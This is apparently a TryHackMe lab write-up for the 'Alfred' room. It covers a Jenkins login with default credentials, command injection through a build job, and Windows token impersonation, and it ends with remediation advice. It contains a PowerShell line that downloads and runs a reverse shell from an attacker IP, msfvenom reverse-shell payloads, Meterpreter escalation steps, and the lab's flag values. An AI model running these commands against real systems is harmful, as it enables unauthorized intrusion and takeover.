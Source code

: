 # Lab Report - Alfred


# Overview 
- **Category**: Web
- **Difficulty**: Easy
- **Platform**: Windows
- **Link**: https://tryhackme.com/room/alfred
- **Tags**: #shell #privesc  #jenkins

## Challenge Description 
>**- Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.**
## Resolution Summary 
>**We enumerated services with `Nmap`. Next we gained access to a Jenkins web application using common credentials. Shortly after, we found a project than was executed on a Windows machine, we were able to edit the project and execute malicious code to infiltrate the target. Finally, we elevated our privileges by impersonating higher-privileged tokens. We retrieved both user and root flags.** 

# Information Gathering 
- **As we were given an IP address, we started to scan the network for open ports using `Nmap`.**
- **Since the machine doesn't respond to ICMP packets, we will be using the `-Pn` option (it tells Nmap to skip the host discovery step entirely and treat all specified hosts as online):**
```bash
sudo nmap -sV -Pn 10.10.197.195
```

- **From the previous scan, we get the following results:**
```bash
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- **We focused on investigating these services.** 
## HTTP (80)
- **Once we accessed the web application on port 80, we were greeted with a picture of Patric Bateman (Bruce Wayne) and an email address for donations `alfred@wayneenterprises.com`.** 
- **We started a Gobuster scan in order to find any hidden directory:** 
```bash
gobuster dir -u 10.10.197.195:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 64
```
	Note: It did not bear any result.

- **While the scan was running, we downloaded the picture from the web application and ran the following, hoping to find any information from the picture's metadata:**
```bash
exiftool bruce.jpg
```
	Note: It did not lead to anything.

- **At this point, here is the only useful data we gathered from this web application:**
	- An email address: `alfred@wayneenterprises.com`.
	- Potential usernames: `Bruce Wayne, Alfred`.  

## HTTP (8080)
- **There we came across a login page.** 
- **Just in case, we ran on the background the same GoBuster scan as before:** 
```bash
gobuster dir -u 10.10.197.195:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 64
```
	Note: It did not lead to anything.

- **Since we were facing a login page, we used Burp Suite to examine the login request. We found that there is a redirection upon trying to authenticate, even if the credentials were wrong (hence, we couldn't see the login error message when forwarding a request with Repeater).** 

- **We attempted some basic credentials combination, and we found a successful one:** 
	- **`admin:admin`**

# Exploitation 
## HTTP (8080)
- **Upon exploring the Jenkins interface, we found a project (scheduled) that run the `whoami` command, we immediately thought about some sort of command injection vulnerability.**
- **First, we uploaded a (reverse shell) Powershell script from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)** 

- **Next we injected this code to be executed on the target:** 
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.139.102:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.139.102 -Port 4444
```

- **However, we could also try to set up a better shell with Meterpreter.** 
- **We started by creating the payload by using `msfvenom`:**
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.139.102 LPORT=4444 -f exe -o shell.exe
```

- **Next, we used Metasploit's  handler `multi/handler` to receive our reverse shell:** 
```bash
msfconsole
use /exploit/multi/handler
#We set all the required options + payload
run
```

- **And we injected this command on the Jenkins project:**
```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.139.102:8000/shell.exe','shell.exe')"

#After running the previous command, we injected this one to execute the payload

shell
```

- **Once we obtained a meterpreter shell, we used the following to access a Windows shell:** 
```cmd
shell
```

# Privilege Escalation 
- **Here we will be using token impersonation to gain system access.** 
- **In order to find privilege escalation vectors, we viewed the privileges held by our user's access token using the following:**
```cmd
whoami /priv
```

- **As a result, we found that `SeDebugPrivilege` and 'SeImpersonatePrivilege' are both enabled. Here, we will be exploiting the 'SeImpersonatePrivilege' privilege.**
- **Since 'SeImpersonatePrivilege' is enable, we can perform impersonation for available tokens. We will be using the `incognito` module to exploit this vulnerability.** 

- **First, we needed to drop back to our meterpreter shell:** 
```cmd
exit
```

- **Then , we loaded the `incognito` module on our meterpreter session:** 
```meterpreter
load incognito
```

- **Next, we checked the available tokens:** 
```meterpreter
list_tokens -g
```

- **Eventually, we found that the `BUILTIN\Administrators` token was available. We impersonated it by using the following command:** 
```meterpreter
impersonate_token "BUILTIN\Administrators"
```

- **However, since Windows uses the Primary Token (and not the impersonated one) to determine what the process can do or not, we need to ensure that we migrate to a process with the correct permissions.** 

- **To begin with , we can use the `getuid` command to confirm our privileges after impersonation:** 
```meterpreter
getuid 

NT AUTHORITY\SYSTEM
```

- **As the impersonation process is temporary and thread-scoped, we can try  and migrate to a process with the correct permissions (NT AUTHORITY\SYSTEM) which will allow our Meterpreter process to run with the stolen token more stably and persistently.**
- **We went with the following option `services.exe` (suggested by the THM), we could also target another process since this one is likely to be monitored in real-world context:**
```meterpreter 
ps
migrate 668
```

- **Finally, we used `shell` again to access a Windows shell and got the root.txt file.** 

# Trophy 
**User.txt → `79007a09481963edf2e1321abd9ae2a0`**  

**Root.txt → `dff0f748678f280250f25a45b8046b4a`**

# Remediation Summary
- **Avoid using weak/common credentials.**
- **Restrict job editing/configuration in Jenkins to authorized administrators; Require approval for changes from non-privileged users.**
- **Revoke or restrict privileges such as 'SeImpersonatePrivilege' or 'SeDebugPrivilege' from non-service (= not meant to run Windows services or system processes) accounts.** 

# Lessons Learned
- **Command injections in Jenkins projects**
- **Always try common credentials first (low hanging fruits)**
- **Using impersonation tokens**
- **Migrating to a service with the correct permissions to stabilize the shell after token impersonation**
